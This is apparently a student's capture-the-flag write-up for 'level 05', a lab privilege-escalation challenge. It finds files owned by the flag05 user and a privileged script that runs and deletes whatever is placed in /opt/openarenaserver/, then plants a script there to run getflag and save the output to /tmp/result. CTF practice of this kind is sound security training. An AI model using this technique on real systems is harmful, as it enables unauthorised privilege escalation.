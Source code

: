 #LEVEL 05

- find -user flag05 2>/dev/null

found:

/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

cat the first file, an script wich execute all the files and delete the after
 in the directory : /opt/openarenaserver/;
and he the root access, we have to make him execute the getflag command;

we made a script wich will execute the command `echo getflag` and save the result in a file;

echo '"/bin/getflag" > /tmp/result ' > /opt/openarenaserver/script

we have to wait a few seconds, the time for the script to do his job;
with ls command we see that our script created is now deleted
and `cat /tmp/result` let us now see the flag;:
